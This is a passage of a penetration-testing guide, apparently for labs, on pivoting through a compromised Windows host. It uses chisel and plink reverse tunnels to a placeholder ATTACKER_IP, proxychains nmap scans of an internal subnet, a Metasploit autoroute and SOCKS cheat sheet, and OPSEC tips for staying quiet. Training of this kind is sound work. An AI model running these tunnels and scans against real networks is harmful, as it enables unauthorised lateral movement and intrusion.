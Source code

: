 - On pivot (Windows):
```
# Reverse SOCKS back to attacker (attacker will get a local SOCKS on 127.0.0.1:1080)
chisel.exe client ATTACKER_IP:8000 R:1080:socks
```

- On attacker (Kali), scan via the new SOCKS:
```
echo "socks5 127.0.0.1 1080" | sudo tee -a /etc/proxychains4.conf
proxychains -q nmap -sT -Pn -n -p 80,445,3389 10.10.20.0/24
```

- Remote port forward example (RDP):
```
# On pivot (Windows), expose 10.10.20.15:3389 to attacker’s 127.0.0.1:13389
chisel.exe client ATTACKER_IP:8000 R:13389:10.10.20.15:3389

# On attacker, connect locally:
xfreerdp /v:127.0.0.1:13389
```

10) Alternative: plink (SSH-based remote port forward)
```
# Ensure SSH is running on attacker (Kali):
sudo systemctl start ssh

# On pivot (Windows), create a remote port forward for RDP:
plink.exe -ssh kali@ATTACKER_IP -P 22 -N -R 13389:10.10.20.15:3389

# On attacker, connect to localhost:
xfreerdp /v:127.0.0.1:13389
```

# Practical tips

- Discovery through SOCKS: Use TCP connect scans (-sT) with -Pn; avoid SYN (-sS), UDP, and ARP/ICMP-based discovery. DNS through SOCKS: enable proxy_dns in proxychains.
- Expect slower scans; reduce scope, limit ports, and tune -T to T2–T3. Validate key hosts first.
- Stability: Keep your pivot session reliable (use HTTPS/TCP transports, consider migrating the process or running as a service). Avoid killing the process hosting your session.
- Route hygiene: Only add routes you’ve confirmed exist (from ipconfig/route print). Multiple nested pivots are possible—document each route and SOCKS chain.
- Access vs scan: For a single service you need to reach (e.g., RDP/SQL), prefer portfwd or a precise chisel/plink forward over broad SOCKS scanning.
- Windows portproxy nuances: It forwards only TCP; the pivot must itself reach the target IP. Add firewall rules for the listening port and clean up entries when done.
- OPSEC basics (even in labs): Avoid noisy full -p- scans unless necessary; start with common ports.

# Minimal cheat sheet (one-screen flow)

```
# 1) Enumerate on pivot (meterpreter + shell)
ipconfig
shell
route print
arp -a
exit

# 2) Add route
run autoroute -s 10.10.20.0/24
# or: route add 10.10.20.0 255.255.255.0 1

# 3) Start SOCKS in msf
use auxiliary/server/socks_proxy
```